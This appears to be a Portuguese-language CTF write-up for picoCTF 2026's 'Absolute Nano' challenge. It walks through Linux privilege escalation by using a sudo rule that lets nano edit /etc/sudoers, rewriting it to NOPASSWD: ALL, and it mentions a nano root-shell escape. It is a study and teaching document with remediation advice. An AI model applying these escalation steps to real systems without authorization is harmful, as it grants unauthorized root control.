

# Absolute Nano | picoCTF 2026

> **NÃO PUBLICAR AINDA — validação de divulgação pendente**

`general-skills` `linux` `privesc` `sudo` `sudoers` `nano` `gtfobins`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Categoria** | General Skills |
| **Dificuldade / pontos** | Medium / 200 pts |
| **Autor do desafio** | Darkraicg492 |
| **Resolvido em** | 2026-05-18 (timestamp do log `script`) |
| **Status** | Resolvido · flag obtida (sem evidência de submissão aceita) |
| **Reproduzido nesta revisão** | Não reexecutado (instância temporária) |

## TL;DR

Entro por SSH como `ctf-player`, mas não consigo ler `flag.txt`. O `sudo -l` mostra que posso rodar `/bin/nano /etc/sudoers` como root sem senha. Isso parece restrito, mas o arquivo que posso editar é justamente a política que define o que posso rodar com sudo. Troco minha regra para `NOPASSWD: ALL` e leio a flag com `sudo cat`.

> [!IMPORTANT]
> **Ideia-chave:** uma regra sudo se avalia pelo que o comando autorizado *consegue fazer*, não pelo nome do binário. Escrita privilegiada em `/etc/sudoers` é root completo.

<details>
<summary>English abstract</summary>

Absolute Nano is a short Linux privilege escalation challenge. The unprivileged `ctf-player` user could not read `flag.txt`, but `sudo -l` allowed running `/bin/nano /etc/sudoers` as root without a password. Since that file is the sudo policy itself, I rewrote my own rule to `NOPASSWD: ALL` and read the flag with `sudo cat`. Lesson: a sudo rule that grants privileged write access to the authorization policy is full root.

</details>

## Enunciado

> You have complete power with nano.
>
> Think you can get the flag?

**Dica oficial:**

> What can you do with nano?

**Instância:** acesso SSH temporário (host, porta e senha gerados pelo picoCTF a cada instância).

## Dicas progressivas

<details><summary>Dica 1</summary>Antes de tentar ler a flag, descubra quais comandos você pode rodar como outro usuário.</details>
<details><summary>Dica 2</summary><code>sudo -l</code>. Repare em <b>qual arquivo</b> o Nano pode abrir, não só no Nano.</details>
<details><summary>Dica 3</summary>Se você pode editar a política do sudo como root, pode reescrever a sua própria regra.</details>

## Ambiente e pré-requisitos

- **Máquina atacante:** Kali Linux, só com o cliente `ssh`.
- **Alvo:** Ubuntu 20.04.3 LTS, GNU nano 4.8 (dados do banner e da tela do editor na sessão).
- **Diretório de trabalho:** a raiz da pasta deste desafio. Nenhum arquivo local é necessário.

Defina os dados da sua instância uma única vez. Na minha sessão era `crystal-peak.picoctf.net`, porta `55591`. Use os valores que o picoCTF mostrar para você.

***INSERIR no terminal — Kali (atacante)

```bash
export TARGET_HOST=crystal-peak.picoctf.net TARGET_PORT=55591
```

Opcionalmente, grave a sessão para ter evidência depois (o `-a` acrescenta ao arquivo em vez de sobrescrever). `exit` encerra a gravação.

***INSERIR no terminal — Kali (atacante)

```bash
script -a sessao-terminal-absolute-nano.log
```

## Cadeia de ataque



## Resolução

### 1. Acesso e o arquivo protegido

Conecto com o usuário fornecido. O `-p` escolhe a porta SSH não padrão da instância.

***INSERIR no terminal — Kali (atacante)

```bash
ssh -p $TARGET_PORT ctf-player@$TARGET_HOST
```

```text
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.17.0-1013-aws x86_64)
...[snip]...
```

A flag está ali, no home:

***INSERIR no terminal — shell no alvo como ctf-player

```bash
ls
```

```text
flag.txt
```

**Isso não funcionou** (pule ao replicar): o meu usuário não pode lê-la.

***INSERIR no terminal — shell no alvo como ctf-player

```bash
cat flag.txt
```

```text
cat: flag.txt: Permission denied
```

**Isso também não funcionou** (pule ao replicar): o enunciado fala em "complete power with nano", então testei o óbvio, abrir a flag no Nano.

***INSERIR no terminal — shell no alvo como ctf-player

```bash
nano flag.txt
```

```text
[ Error reading flag.txt: Permission denied ]
```

Esse teste negativo é útil: o Nano rodando **como eu** tem exatamente as minhas permissões. O "poder" do enunciado não vem do editor em si, e sim de rodá-lo como outro usuário. Saio com `Ctrl+X`.

### 2. Enumerando o sudo

A pergunta passa a ser: o que posso executar com privilégio? A primeira checagem de privesc em Linux é o `sudo -l`, que lista as regras sudo do usuário atual.

***INSERIR no terminal — shell no alvo como ctf-player

```bash
sudo -l
```

```text
Matching Defaults entries for ctf-player on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf-player may run the following commands on challenge:
    (ALL) NOPASSWD: /bin/nano /etc/sudoers
```

Lendo a regra por partes:

- `(ALL)`: posso rodar como qualquer usuário, inclusive root.
- `NOPASSWD`: sem pedir senha.
- `/bin/nano /etc/sudoers`: **só** esse comando, com esse argumento exato.

Parece restrito, mas o argumento é o próprio `/etc/sudoers`, o arquivo que o sudo consulta para decidir *o que cada usuário pode rodar*. Ter escrita como root nele significa poder reescrever a minha própria permissão.

> [!TIP]
> **Conceito: `/etc/sudoers`.** É a política do sudo. Cada linha `usuário host=(runas) [NOPASSWD:] comandos` diz quem pode rodar o quê, como quem. Quem consegue escrever nesse arquivo (ou em `/etc/sudoers.d/`) decide as regras, ou seja, é root na prática. Referência: `man 5 sudoers` ([sudo.ws/docs/man/sudoers.man](https://www.sudo.ws/docs/man/sudoers.man/)).

### 3. Reescrevendo a minha regra

Rodo exatamente o comando autorizado. Ele precisa ser idêntico ao da regra: caminho completo `/bin/nano` e argumento `/etc/sudoers`.

***INSERIR no terminal — shell no alvo como ctf-player

```bash
sudo /bin/nano /etc/sudoers
```

O Nano abre o arquivo como root (`[ Read 31 lines ]`). No final está a regra do desafio:

```text
ctf-player ALL=(ALL) NOPASSWD: /bin/nano /etc/sudoers
```

Edito **só a lista de comandos** dessa linha para que fique assim (isto é conteúdo do arquivo, não comando de terminal):

```text
ctf-player ALL=(ALL) NOPASSWD: ALL
```

Salvo com `Ctrl+O`, confirmo o nome `/etc/sudoers` com `Enter` e saio com `Ctrl+X`. O editor confirmou a gravação:

```text
[ Wrote 31 lines ]
```

> [!NOTE]
> **Reconstrução:** o log `script` registra a tela do Nano com a edição (o `ALL` aparecendo na linha e o status `Modified`) e o `[ Wrote 31 lines ]`, mas não há uma leitura posterior do arquivo. A linha final acima é reconstruída a partir disso e confirmada indiretamente pelo passo seguinte.

> [!WARNING]
> O próprio cabeçalho do arquivo avisa: `This file MUST be edited with the 'visudo' command as root`. O `visudo` valida a sintaxe antes de salvar; o Nano não. Um erro de digitação aqui quebra o sudo inteiro (`syntax error`), e numa instância de CTF você perde o único caminho de privesc e precisa reiniciar a instância. Edite com cuidado e mude só o necessário.

### 4. Validando e lendo a flag

Se a edição funcionou, agora posso rodar com sudo um comando que **não** estava na regra original. `cat` é o teste perfeito: ele prova a ampliação da regra e lê a flag ao mesmo tempo.

***INSERIR no terminal — shell no alvo como ctf-player

```bash
sudo cat /home/ctf-player/flag.txt
```

```text
picoCTF{flag}
```

(Conteúdo mascarado aqui. A flag real apareceu inteira no terminal.)

Logo depois a instância encerrou a conexão (`Connection to crystal-peak.picoctf.net closed by remote host.`).

## Por que funciona

O Nano não tem vulnerabilidade nenhuma: ele só fez o que um editor faz, com o privilégio que o sudo lhe deu. A falha é de **configuração**. A regra delega a um usuário comum uma escrita privilegiada justamente sobre o arquivo que define a fronteira de privilégio. Restringir o *binário* e o *argumento* não ajuda quando o argumento é a própria política: a primitiva obtida ("escrever `/etc/sudoers` como root") é equivalente a root. Classe: CWE-269 (*Improper Privilege Management*) / MITRE ATT&CK T1548.003 (*Sudo and Sudo Caching*).

## Além da flag

Caminhos alternativos que **não testei na sessão** (inferência a partir da documentação; não foram reexecutados):

- **Ler a flag de dentro do Nano, sem mexer no sudoers.** O Nano já roda como root, então `Ctrl+R` (*Read File*) com `/home/ctf-player/flag.txt` deveria inserir a flag no buffer. É mais limpo: não altera a política do sistema. Depois saia **sem salvar**.
- **Shell de root direto pelo Nano.** O GTFOBins documenta que o Nano executa comandos: `Ctrl+R`, `Ctrl+X` e então `reset; sh 1>&0 2>&0`. Como o processo é root, o shell também seria ([GTFOBins: nano](https://gtfobins.github.io/gtfobins/nano/)).
- **Regra mínima em vez de `ALL`.** Algo como `NOPASSWD: /bin/cat /home/ctf-player/flag.txt` já bastaria e mexe menos no sistema. Em pentest real, a mudança mínima e reversível é a boa prática.

A lição dessas variações: um editor com sudo é root por **vários** caminhos (ler, escrever e executar). Mesmo que o argumento não fosse o sudoers, o Nano como root continuaria sendo um problema.

## Remediação

- Não dar a usuários comuns nenhum comando sudo que escreva em `/etc/sudoers`, `/etc/sudoers.d/`, `/etc/passwd`, `/etc/shadow`, units do systemd, cron ou binários executados por root.
- Não liberar editores, pagers ou interpretadores via sudo (todos têm escape para shell). Para editar arquivos com privilégio, use `sudoedit`, que edita uma cópia temporária com o editor rodando **como o usuário** e só depois copia o resultado.
- Administrar o sudoers sempre com `visudo`, que valida a sintaxe.
- **Reteste:** `sudo -l` como `ctf-player` não deve listar editor sobre arquivos sensíveis, e `sudo cat /home/ctf-player/flag.txt` deve ser negado.

## Lições e padrões

- **Sinais para reconhecer:** enunciado citando um binário específico ("power with nano"), arquivo legível só por root e um shell de usuário comum. É privesc por sudo/SUID.
- **Da próxima vez eu tentaria primeiro:** `sudo -l` logo após o login, antes de qualquer outra coisa, e depois procurar o binário no GTFOBins.
- **Sempre olhar o argumento, não só o binário:** `nano /etc/sudoers`, `cp ... /etc/`, `tee /etc/...` e similares transformam um binário "inofensivo" em root.

## Evidências e limitações

| ID | Arquivo | SHA-256 | Papel |
|---|---|---|---|
| E01 | `sessao-absolute-nano.md` (log `script`, 8782 bytes) | `a7fcdeca24ceb8e59d8212e8a1547c4a227dba5d53c60ac24ddf20531b23a9e0` | fonte primária: conexão, enumeração, edição, flag |
| E02 | `absolute-nano-writeup.md` (rascunho, 5714 bytes) | `6785864641edf58e91eddac91a60cc8c6c5c0043912773380d64d8733954d0be` | fonte secundária |

- Os logs brutos ficam fora do repositório. O E01 contém sequências ANSI e foi lido como dado, a partir de uma cópia limpa.
- A senha da instância não aparece no log (a entrada do SSH não é ecoada).
- Não há leitura do `/etc/sudoers` depois da edição (ver nota na etapa 3).
- Não há evidência de submissão aceita na plataforma, apenas da flag obtida.

## Referências

- `man 5 sudoers`: <https://www.sudo.ws/docs/man/sudoers.man/>
- `man 8 visudo` / `sudoedit`: <https://www.sudo.ws/docs/man/visudo.man/>
- GTFOBins, nano: <https://gtfobins.github.io/gtfobins/nano/>
- MITRE ATT&CK T1548.003: <https://attack.mitre.org/techniques/T1548/003/>

## Flag

```text
picoCTF{flag}
```
